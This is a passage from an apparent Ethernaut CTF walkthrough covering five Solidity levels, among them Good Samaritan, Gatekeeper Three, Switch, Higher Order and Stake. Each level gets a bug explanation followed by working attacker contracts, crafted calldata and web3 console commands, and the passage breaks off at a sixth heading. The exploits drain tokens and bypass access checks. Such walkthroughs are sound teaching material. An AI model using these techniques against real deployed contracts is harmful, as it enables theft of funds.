    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

You call `requestDonation()`, it tries to give you 10 coins via `wallet.donate10()`. If the wallet doesn't have enough balance, it throws `NotEnoughBalance()` error, the catch block sees it and calls `wallet.transferRemainder()` to send you everything left.

```c
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    if (amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if (dest_.isContract()) {
            INotifyable(dest_).notify(amount_);  // ← CALLS YOUR CONTRACT!
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

When you receive coins, if you are a contract, `notify()` is called on you.

Now look at `requestDonation()`:

```c
try wallet.donate10(msg.sender) {
    return true;
} catch (bytes memory err) {
    if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
        wallet.transferRemainder(msg.sender); // drain trigger
    }
}
```

It catches errors from the **entire call chain** - not just `wallet.donate10()` directly. This includes errors thrown from inside `coin.transfer()` → `notify()`.

So if you throw `NotEnoughBalance()` from your own `notify()` function, it bubbles all the way up. GoodSamaritan can't tell whether it came from the wallet or from your contract. They look identical - same error signature, same bytes.
## Custom Errors

```c
// Old way - string errors
revert("NotEnoughBalance");
// encodes as: Error(string) ABI type

// New way - custom errors (Solidity 0.8+)
error NotEnoughBalance();
revert NotEnoughBalance();
// encodes as raw bytes of the error signature
```

The catch block checks:

```c
keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)
```

**It only checks the error SIGNATURE - not WHERE it came from.**

So if YOU throw `NotEnoughBalance()` from your `notify()` function, it looks identical to the wallet throwing it. The GoodSamaritan can't tell the difference!

1. You call requestDonation()
2. wallet.donate10(you) runs
3. coin.transfer(you, 10) runs
4. your notify(10) is called
5. you throw NotEnoughBalance()
6. error bubbles up to the try/catch
7. GoodSamaritan thinks wallet is empty
8. calls wallet.transferRemainder(you)
9. coin.transfer(you, 1_000_000) runs
10. your notify(1_000_000) is called
11. amount != 10, so you do nothing
12. transfer completes - you have all coins

```c
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IGoodSamaritan {
    function requestDonation() external returns (bool);
}

contract AttackGoodSamaritan {

    error NotEnoughBalance();  // exact same name as wallet's error

    IGoodSamaritan public target;

    constructor(address _target) {
        target = IGoodSamaritan(_target);
    }

    function attack() external {
        target.requestDonation();
    }

    function notify(uint256 amount) external {
        // when receiving 10 coins → fake the error, trigger remainder transfer
        // when receiving all coins → do nothing, let it succeed
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```

In Remix, deploy `AttackGoodSamaritan` with the GoodSamaritan instance address as constructor arg.

Then in the Ethernaut console:

```js
// verify wallet is drained after attack
const walletAddr = await contract.wallet()
const coinAddr = await contract.coin()

const coinABI = [{
    "inputs":[{"name":"","type":"address"}],
    "name":"balances",
    "outputs":[{"name":"","type":"uint256"}],
    "stateMutability":"view",
    "type":"function"
}]

const coin = new web3.eth.Contract(coinABI, coinAddr)
const bal = await coin.methods.balances(walletAddr).call()
console.log(bal)  // should be 0 after attack
```
# 28 - Gatekeeper Three

Cope with gates and become an entrant.
##### Things that might help:

- Recall return values of low-level functions.
- Be attentive with semantic.
- Refresh how storage works in Ethereum.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

The main contract. Has three gates protecting `enter()`. Holds ETH. Has an owner and an entrant. A helper contract created by GatekeeperThree. Holds a password (set to `block.timestamp` at deployment). Used to control `allowEntrance` via `getAllowance()`.
## Gate One - Become the Owner Without Constructor

```c
modifier gateOne() {
    require(msg.sender == owner);    // you must be owner
    require(tx.origin != owner);     // but owner can't be an EOA calling directly
    _;
}
```

Two conditions here. You must be the owner, but `tx.origin` (the original human wallet) must NOT be the owner. This means the owner must be a contract, not your wallet directly.

Now look at this:

```c
function construct0r() public {
    owner = msg.sender;
}
```

This looks like a constructor but it is NOT. Notice the zero - `construct0r` not `constructor`. In Solidity, only the function literally named `constructor` runs at deployment. This is just a regular public function anyone can call. So you call it from your attack contract and you become the owner.

Since your attack contract calls it, `msg.sender = attack contract address = owner`. When you later call `enter()` through your attack contract, `msg.sender == owner` passes. And `tx.origin` is your wallet, not the attack contract, so `tx.origin != owner` also passes.
## Gate Two - Get the Password from Storage

```c
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

`allowEntrance` is set to true only through `getAllowance()`:

```c
function getAllowance(uint256 _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
}
```

And `checkPassword` in SimpleTrick:

```c
uint256 private password = block.timestamp;  // set at deployment

function checkPassword(uint256 _password) public returns (bool) {
    if (_password == password) {
        return true;
    }
    password = block.timestamp;  // resets if wrong!
    return false;
}
```

The password is `private` but private in Solidity only means other contracts can't read it via code. Anyone can still read raw storage slots directly.

Storage layout of SimpleTrick:

```
slot 0 → target (address, 20 bytes)
slot 1 → trick  (address, 20 bytes)
slot 2 → password (uint256)
```

So you read slot 2 of the SimpleTrick contract to get the password. Important: you must call `createTrick()` first to deploy SimpleTrick, then read its storage before calling `getAllowance()` - because if you pass the wrong password, it resets to the current `block.timestamp`.

Reading storage from console:

```js
const trickAddr = await contract.trick()
const password = await web3.eth.getStorageAt(trickAddr, 2)
await contract.getAllowance(password)
```
## Gate Three - Make ETH Send Fail

```c
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

Two conditions both must be true for the gate to open:

The GatekeeperThree contract must hold more than 0.001 ETH. And when it tries to send 0.001 ETH to the owner, that send must FAIL.

Since your attack contract is the owner, you just make your attack contract reject ETH. No `receive()` or `fallback()` function means any ETH sent to it will revert. The `send()` call fails silently and returns false. Gate passes.

You also need to send more than 0.001 ETH to GatekeeperThree before calling `enter()`.

In Remix, deploy `AttackGatekeeperThree` with the instance address.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperThree {
    function construct0r() external;
    function createTrick() external;
    function getAllowance(uint256 _password) external;
    function enter() external;
    function trick() external view returns (address);
}

contract AttackGatekeeperThree {

    IGatekeeperThree public target;

    constructor(address payable _target) {
        target = IGatekeeperThree(_target);
    }

    // Step 1: setup everything except entering
    function setup() external {
        target.construct0r();   // become owner
        target.createTrick();   // deploy SimpleTrick
    }

    // Step 2: called after reading password off-chain
    function unlock(uint256 _password) external {
        target.getAllowance(_password);
    }

    // Step 3: fund the gate and enter
    function attack() external payable {
        require(msg.value > 0.001 ether, "Need more than 0.001 ETH");

        // send ETH to GatekeeperThree
        (bool ok,) = address(target).call{value: msg.value}("");
        require(ok);

        target.enter();
    }

    // deliberately no receive() - makes send() to this contract fail
    // this is what makes gateThree pass
}
```

```js
const attackAddr = "0xA27B218621EE80B1Fb671a5C469C4CCA5EB54740"
```

```js
const attackABI = [
  {"inputs":[{"name":"_target","type":"address"}],"stateMutability":"nonpayable","type":"constructor"},
  {"inputs":[],"name":"setup","outputs":[],"stateMutability":"nonpayable","type":"function"},
  {"inputs":[{"name":"_password","type":"uint256"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},
  {"inputs":[],"name":"attack","outputs":[],"stateMutability":"payable","type":"function"}
]

const attackContract = new web3.eth.Contract(attackABI, "0xA27B218621EE80B1Fb671a5C469C4CCA5EB54740")
```

```js
// Calls construct0r() to make attack contract the owner
// Then calls createTrick() to deploy SimpleTrick
// Both happen inside setup() in one transaction
await attackContract.methods.setup().send({from: player})
```

```js
// Get SimpleTrick contract address that was just deployed
const trickAddr = await contract.trick()

// Read storage slot 2 of SimpleTrick
// slot 0 = target address, slot 1 = trick address, slot 2 = password
const password = await web3.eth.getStorageAt(trickAddr, 2)

// Log it so we can see it
console.log("Password is:", password)
```

```js
// Pass the raw password bytes directly into getAllowance via our unlock function
// This sets allowEntrance = true inside GatekeeperThree
await attackContract.methods.unlock(password).send({from: player})

// Verify it worked - should print true
const allowed = await contract.allowEntrance()
console.log("Gate 2 open:", allowed)
```

```js
// Send 0.0011 ETH to GatekeeperThree and call enter() in one tx
// Gate 3 needs balance > 0.001 ETH AND send() to owner must fail
// send() fails because our attack contract has no receive() function
await attackContract.methods.attack().send({
    from: player,
    value: web3.utils.toWei("0.0011", "ether")  // slightly more than 0.001
})
```

```js
// Check entrant is now set to your wallet address
const entrant = await contract.entrant()
console.log("Entrant:", entrant)
console.log("You won:", entrant.toLowerCase() === player.toLowerCase())
```
# 29 - Switch

Just have to flip the switch. Can't be that hard, right?
##### Things that might help:

Understanding how `CALLDATA` is encoded.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

We need to set `switchOn = true` by calling `turnSwitchOn()`. But every path to it is blocked by modifiers. You need to understand exactly how calldata is encoded to bypass the check.

`flipSwitch(bytes memory _data)` is the only public entry point. It takes raw bytes and calls `address(this).call(_data)` - meaning whatever bytes you pass, it executes as a function call on the contract itself.

`turnSwitchOn()` sets `switchOn = true` but has `onlyThis` modifier - only callable if `msg.sender == address(this)`. So you can only reach it through `flipSwitch`.

`turnSwitchOff()` same story, only callable from the contract itself.

```c
modifier onlyOff() {
    bytes32[1] memory selector;
    assembly {
        calldatacopy(selector, 68, 4)  // reads 4 bytes starting at position 68
    }
    require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
    _;
}
```

This reads 4 bytes from calldata at **hardcoded position 68** and checks they equal the `turnSwitchOff()` selector. It assumes the function selector of `_data` will always be at byte 68. This assumption is the bug.
## How Calldata is Normally Encoded

When you call `flipSwitch(bytes memory _data)`, the calldata looks like this normally:

```c
Position  Content
0x00      flipSwitch selector        (4 bytes)
          keccak256("flipSwitch(bytes)")[0:4]

0x04      offset pointer to _data    (32 bytes)
          value = 0x20 = 32
          meaning: _data starts 32 bytes from here

0x24      length of _data            (32 bytes)
          e.g. 0x04 = 4 bytes long

0x44      actual _data content       (padded to 32 bytes)
          e.g. turnSwitchOff selector
```

Position 68 decimal = 0x44. That's where `_data` content starts in a normal encoding. So normally if you pass `turnSwitchOff()` selector as `_data`, position 68 contains exactly that selector. The modifier reads position 68 and finds `turnSwitchOff` - check passes. Then `flipSwitch` executes `_data` which calls `turnSwitchOff`. Switch stays off. Useless.

The modifier ASSUMES the offset pointer at 0x04 always points to 0x20, making data land at 0x44 (68). But ABI encoding only requires the offset to be a valid pointer - it doesn't require it to be 0x20.
## Shift the Data

You can manually craft calldata where the offset pointer points somewhere else, so the actual function call uses `turnSwitchOn()` selector, but position 68 still contains `turnSwitchOff()` selector to fool the modifier.

Here is the crafted calldata layout:

```c
Position   Bytes     Meaning
0x00       30c13ade  selector for flipSwitch(bytes)
0x04       0000...60 offset = 0x60 = 96 (data starts 96 bytes from 0x04, NOT at 0x24)
0x24       0000...00 empty/padding (32 bytes)
0x44       20606e15  turnSwitchOff() selector  ← modifier reads HERE (pos 68)
           000...00  padded to 32 bytes
0x64       0000...04 length of actual _data = 4 bytes
0x84       76227e12  turnSwitchOn() selector   ← this is what actually gets called
           000...00  padded to 32 bytes
```

The modifier reads position 68 (0x44) and finds `turnSwitchOff` selector - check passes.

But the offset pointer says data starts at position 0x04 + 0x60 = 0x64, where the length is 4 and content is `turnSwitchOn()` selector. So `address(this).call(_data)` actually calls `turnSwitchOn()`.

First Deploy the contract in remix. Go to Remix, create `Switch.sol`, paste the original contract, compile and deploy on Sepolia. Copy the deployed address.
## Computing the Selectors

```js
// turnSwitchOff selector
const offSelector = web3.utils.keccak256("turnSwitchOff()").slice(0, 10)
console.log("off:", offSelector)  // 0x20606e15

// turnSwitchOn selector
const onSelector = web3.utils.keccak256("turnSwitchOn()").slice(0, 10)
console.log("on:", onSelector)   // 0x76227e12

// flipSwitch selector
const flipSelector = web3.utils.keccak256("flipSwitch(bytes)").slice(0, 10)
console.log("flip:", flipSelector) // 0x30c13ade
```
## Building and Sending the Crafted Calldata

```js
// Build the malicious calldata manually piece by piece

const calldata = (
    // flipSwitch(bytes) selector - 4 bytes
    "30c13ade" +

    // offset pointer - normally 0x20 (32), we set to 0x60 (96)
    // this makes the decoder look for _data at position 0x04 + 0x60 = 0x64
    "0000000000000000000000000000000000000000000000000000000000000060" +

    // dead zone - 32 bytes of padding at position 0x24
    // modifier reads position 68 (0x44) from here - we put turnSwitchOff here
    "0000000000000000000000000000000000000000000000000000000000000000" +

    // position 0x44 (68) - turnSwitchOff selector - fools the modifier
    "20606e1500000000000000000000000000000000000000000000000000000000" +

    // position 0x64 - length of _data = 4 bytes
    "0000000000000000000000000000000000000000000000000000000000000004" +

    // position 0x84 - actual _data = turnSwitchOn selector
    "76227e1200000000000000000000000000000000000000000000000000000000"
)

// Send raw transaction with our crafted calldata
await web3.eth.sendTransaction({
    from: player,
    to: instance,           // the Switch contract address
    data: "0x" + calldata
})

// Verify the switch is now on
const result = await contract.switchOn()
console.log("Switch is on:", result)  // should be true
```

```js
// Paste your Remix deployed Switch address here
const switchAddr = "PASTE_YOUR_REMIX_DEPLOYED_ADDRESS"

// Build the crafted calldata
const calldata = (
    "30c13ade" +
    "0000000000000000000000000000000000000000000000000000000000000060" +
    "0000000000000000000000000000000000000000000000000000000000000000" +
    "20606e1500000000000000000000000000000000000000000000000000000000" +
    "0000000000000000000000000000000000000000000000000000000000000004" +
    "76227e1200000000000000000000000000000000000000000000000000000000"
)

// Send with explicit gas limit - not too high, not too low
await web3.eth.sendTransaction({
    from: player,
    to: switchAddr,
    data: "0x" + calldata,
    gas: 100000   // explicit reasonable gas limit
})
```

When the EVM receives your calldata and hits the `onlyOff` modifier, it runs `calldatacopy(selector, 68, 4)` which blindly reads 4 bytes at position 68. You put `turnSwitchOff` selector there so the check passes.

Then `flipSwitch` runs and does `address(this).call(_data)`. To decode `_data`, the EVM reads the offset pointer at position 4, sees 0x60, jumps to position 0x04 + 0x60 = 0x64, reads the length (4), reads 4 bytes of content (`turnSwitchOn` selector), and executes that call.

`turnSwitchOn()` runs, `onlyThis` passes because caller is the contract itself, `switchOn = true`.

**ABI encoding of dynamic types** - `bytes` is a dynamic type. It is encoded as an offset pointer followed by length followed by data. The offset is relative and can point anywhere valid in the calldata. Nothing enforces it must be 0x20.

**Hardcoded offset assumption** - The modifier assumes `_data` content always starts at byte 68. This is only true for standard encoding. Manually crafted calldata can place anything at position 68 while the actual data lives elsewhere.

**calldatacopy reads raw bytes** - It doesn't understand ABI encoding. It just copies bytes from a position. Completely blind to where the real data actually is.

**Low level call with raw bytes** - `address(this).call(_data)` uses ABI decoding properly, following the offset pointer to find the real data. So the modifier and the actual call decode the same calldata in completely different ways - that gap is the exploit.
# 30 - Higher Order

Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!
##### Things that might help:

- Sometimes, `calldata` cannot be trusted.
- Compilers are constantly evolving into better spaceships.

```c
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

Become the `commander` by calling `claimLeadership()`. That requires `treasury > 255`. But `registerTreasury` takes a `uint8` which can only hold 0-255. Classic trap.

```c
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

The function signature says `uint8` - meaning Solidity's ABI encoder would normally reject any value above 255. But look inside - it completely ignores the Solidity parameter. It uses raw assembly to read calldata directly at byte position 4 and store it into the treasury slot.

`calldataload(4)` reads a full **32 byte word** starting at position 4. It doesn't care what the function signature says. It doesn't care about uint8 limits. It reads raw bytes.

So if you craft calldata manually with a value greater than 255 at position 4, the assembly will store that full value into treasury - completely bypassing the uint8 type restriction.

```c
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```

Simple. If treasury is above 255, you become commander. No other checks.


Solidity says the parameter is `uint8` - but that restriction only exists at the ABI encoding level. The EVM itself has no concept of uint8 in calldata. Calldata is just raw bytes. The assembly reads those raw bytes directly, skipping every Solidity type check entirely.

This is a Solidity 0.6.x issue too. Newer versions added stricter calldata validation, but 0.6.12 does not validate that the calldata actually matches the declared parameter types before the function body runs.

```
Normal path:   you → ABI encode uint8(200) → calldata → Solidity checks type → assembly reads 200
               treasury = 200, stays under 255, can never claim leadership

Exploit path:  you → manually craft calldata → skip ABI encoding → assembly reads 256+
               treasury = 256, greater than 255, claim leadership!
```

## Calldata Layout

When calling `registerTreasury(uint8)` the calldata is:

```c
Position 0-3:   function selector   keccak256("registerTreasury(uint8)")[0:4]
Position 4-35:  the argument        32 bytes, ABI encoded
```

Normally ABI encoding of uint8(200) pads to 32 bytes:

```c
0x0000000000000000000000000000000000000000000000000000000000000000c8
```

But you can put ANY 32 byte value at position 4. The assembly reads all 32 bytes raw. So put 256 there:

```c
0x0000000000000000000000000000000000000000000000000000000000000100
```

That is 256 in hex. Treasury becomes 256. Greater than 255. Done.

Compute the selector:

```js
const selector = web3.utils.keccak256("registerTreasury(uint8)").slice(0, 10)
undefined
selector
"0x211c85ab"
```

```js
// Step 1 - build calldata manually
// selector for registerTreasury(uint8) = 211c85ab
// value 256 in 32 bytes = 0x0000...0100
const calldata = (
    "211c85ab" +   // function selector
    // 256 as a 32 byte hex value
    // 256 in hex = 0x100, padded to 32 bytes
    "0000000000000000000000000000000000000000000000000000000000000100"
)

// Step 2 - send raw transaction bypassing ABI encoding
await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: "0x" + calldata,
    gas: 100000
})

// Step 3 - verify treasury is now 256
const treasury = await contract.treasury()
treasury.toString()  // should be "256"

// Step 4 - claim leadership
await contract.claimLeadership()

// Step 5 - verify you are commander
const commander = await contract.commander()
commander  // should be your player address
commander.toLowerCase() === player.toLowerCase()  // true
```

`calldataload(4)` is a raw EVM opcode. It has no knowledge of Solidity types. It just reads 32 bytes from position 4 of whatever calldata was sent. The uint8 declaration in the function signature is purely a Solidity compiler concept - it affects how the compiler generates ABI encoding for calls made within Solidity code. But when you send a raw transaction directly, you bypass the compiler entirely and talk straight to the EVM.

The assembly inside `registerTreasury` then takes those raw 32 bytes and stores them directly into the treasury storage slot with `sstore`. No casting, no bounds checking, no uint8 truncation. Full 256 bit value goes straight into storage.

**ABI encoding vs raw calldata** - Solidity's type system enforces limits during encoding but the EVM itself is typeless. Raw transactions skip encoding entirely.

**calldataload** - EVM opcode that reads exactly 32 bytes from a calldata offset. Completely blind to Solidity types.

**Assembly bypasses type safety** - The moment you use inline assembly to read calldata directly, you lose all Solidity type guarantees. The uint8 parameter declaration becomes meaningless.

**Solidity 0.6.x loose calldata validation** - Older Solidity versions do not revert if calldata contains values that overflow the declared parameter type. Newer versions added stricter checks. This is why the pragma is pinned to 0.6.12 - the exploit does not work on 0.8.x.
# 31 - Stake

Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

- The `Stake` contract's ETH balance has to be greater than 0.
- `totalStaked` must be greater than the `Stake` contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

Meet all four conditions simultaneously:

1. Stake contract ETH balance > 0
2. totalStaked > Stake contract ETH balance
3. You must be a Staker
4. Your staked balance must be 0
## Understanding Every Function
### StakeETH

```c
function StakeETH() public payable {
    require(msg.value > 0.001 ether, "Don't be cheap");
    totalStaked += msg.value;
    UserStake[msg.sender] += msg.value;
    Stakers[msg.sender] = true;
}
```

Straightforward. Send ETH, it tracks your balance, marks you as staker.
## StakeWETH

```c
function StakeWETH(uint256 amount) public returns (bool) {
    require(amount > 0.001 ether, "Don't be cheap");

    // checks your WETH allowance
    (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender, address(this)));
    require(bytesToUint(allowance) >= amount, "How am I moving the funds honey?");

    totalStaked += amount;
    UserStake[msg.sender] += amount;

    // tries to transferFrom your WETH
    (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender, address(this), amount));

    Stakers[msg.sender] = true;
    return transfered;  // ← BUG: return value never checked!
}
```
### Unstake

```c
function Unstake(uint256 amount) public returns (bool) {
    require(UserStake[msg.sender] >= amount, "Don't be greedy");
    UserStake[msg.sender] -= amount;
    totalStaked -= amount;
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    return success;  // ← BUG: return value never checked!
}
```
## Bug 1 - StakeWETH never checks if transferFrom succeeded

```c
(bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender, address(this), amount));
Stakers[msg.sender] = true;
return transfered;  // returned but never required!
```

The `transfered` bool is returned to the caller but there is no `require(transfered)`. So even if the WETH transfer completely fails, the function still updates `totalStaked` and `UserStake[msg.sender]`. You get credit for staking WETH you never actually sent.
## Bug 2 - Unstake never checks if ETH transfer succeeded

```c
(bool success, ) = payable(msg.sender).call{value: amount}("");
return success;  // returned but never required!
```

If the ETH transfer fails, your `UserStake` is already decremented and `totalStaked` is already decremented - but you never got the ETH. The contract still holds the ETH but thinks it was sent out.

You need to exploit both bugs together to meet all four conditions.

The trick is using a contract that **rejects ETH** as your attack contract. When Unstake tries to send ETH to a contract with no receive function, the transfer fails silently. Your balance goes to 0 but the ETH stays in the contract.

```
1. StakeETH with 0.001+ ETH from attack contract
   → contract gets real ETH
   → your UserStake increases
   → you become a Staker

2. StakeWETH with some amount (approve a tiny amount or zero)
   → transferFrom fails silently
   → but totalStaked and UserStake still increase!
   → totalStaked is now inflated beyond real ETH balance

3. Unstake your full balance
   → UserStake goes to 0
   → ETH transfer to your contract FAILS (no receive function)
   → ETH stays in contract
   → totalStaked decremented but ETH never left

Result:
   Contract ETH balance > 0          (your staked ETH still there)
   totalStaked > ETH balance          (inflated by fake WETH stake)
   You are a Staker                   (set in StakeETH, never unset)
   Your UserStake = 0                (decremented in Unstake)
```

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackStake {

    address public target;
    address public weth;

    constructor(address _target, address _weth) {
        target = _target;
        weth = _weth;
    }

    function attack() external payable {
        // Step 1: Stake real ETH - become a staker
        (bool s1,) = target.call{value: msg.value}(
            abi.encodeWithSignature("StakeETH()")
        );
        require(s1, "StakeETH failed");

        // Step 2: Approve WETH for target (we have no WETH, transfer will fail silently)
        (bool s2,) = weth.call(
            abi.encodeWithSignature("approve(address,uint256)", target, type(uint256).max)
        );
        require(s2, "approve failed");

        // Step 3: StakeWETH - transferFrom fails but totalStaked still inflates
        target.call(
            abi.encodeWithSignature("StakeWETH(uint256)", msg.value)
        );
        // intentionally not checking return - mirrors the contract's own bug

        // Step 4: Read our current stake balance
        (,bytes memory data) = target.call(
            abi.encodeWithSignature("UserStake(address)", address(this))
        );
        uint256 myStake = abi.decode(data, (uint256));

        // Step 5: Unstake everything
        // ETH transfer back to us will FAIL because we have no receive()
        // But UserStake becomes 0 and ETH stays in contract
        target.call(
            abi.encodeWithSignature("Unstake(uint256)", myStake)
        );
        // intentionally not checking - ETH transfer will fail, that's the point
    }

    // NO receive() on purpose - makes Unstake's ETH send fail silently
}
```

Run this in console before deploying:

```js
// Get the WETH address you need for constructor
const wethAddr = await contract.WETH()
wethAddr  // copy this
"0xCd8AF4A0F29cF7966C051542905F66F5dca9052f"
```

Constructor args:

- `_target` → your instance address
- `_weth` → wethAddr from above

```js
// Step 1 - save your attack contract address
const attackAddr = "PASTE_YOUR_DEPLOYED_ATTACK_CONTRACT"

// Step 2 - build ABI for attack function only
const attackABI = [{
    "inputs": [],
    "name": "attack",
    "outputs": [],
    "stateMutability": "payable",
    "type": "function"
}]

// Step 3 - create web3 contract instance
const attackContract = new web3.eth.Contract(attackABI, attackAddr)

// Step 4 - run attack with 0.0011 ETH (must be > 0.001)
await attackContract.methods.attack().send({
    from: player,
    value: web3.utils.toWei("0.0011", "ether"),
    gas: 300000
})

// Step 5 - verify all four conditions

// Condition 1: contract ETH balance > 0
const ethBal = await web3.eth.getBalance(instance)
ethBal  // must be > 0

// Condition 2: totalStaked > ETH balance
const totalStaked = await contract.totalStaked()
totalStaked.toString()  // must be greater than ethBal

// Condition 3: attack contract is a staker
await contract.Stakers(attackAddr)  // must be true

// Condition 4: attack contract stake balance is 0
const myStake = await contract.UserStake(attackAddr)
myStake.toString()  // must be "0"
```

3 out of 4 conditions are met. The problem is `totalStaked = 0` but it should be greater than `ethBal (1100000000000000)`.

The `StakeWETH` fake inflation didn't work. The issue is the WETH `approve` call worked but `StakeWETH` still didn't inflate `totalStaked`. This is because when `transferFrom` fails, the whole call reverted instead of failing silently.

```js
// Step 1 - Approve WETH from YOUR wallet (not attack contract)
// This approves the Stake contract to spend your WETH
const wethAddr = "0xCd8AF4A0F29cF7966C051542905F66F5dca9052f"

const wethABI = [
    {"inputs":[{"name":"spender","type":"address"},{"name":"amount","type":"uint256"}],"name":"approve","outputs":[{"name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"name":"account","type":"address"}],"name":"balanceOf","outputs":[{"name":"","type":"uint256"}],"stateMutability":"view","type":"function"}
]

const weth = new web3.eth.Contract(wethABI, wethAddr)

// Check your WETH balance first
const wethBal = await weth.methods.balanceOf(player).call()
wethBal  // probably 0, that's fine - approve anyway
```

```js
// Step 2 - Approve a large amount (even if balance is 0)
await weth.methods.approve(instance, "99999999999999999999").send({from: player})
```

```js
// Step 3 - Call StakeWETH directly from YOUR wallet
// transferFrom will fail but totalStaked will still inflate
await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: web3.eth.abi.encodeFunctionCall({
        name: "StakeWETH",
        type: "function",
        inputs: [{"name":"amount","type":"uint256"}]
    }, ["2000000000000000"]),  // 0.002 ETH worth - more than ethBal
    gas: 100000
})
```
# 32 - Impersonator

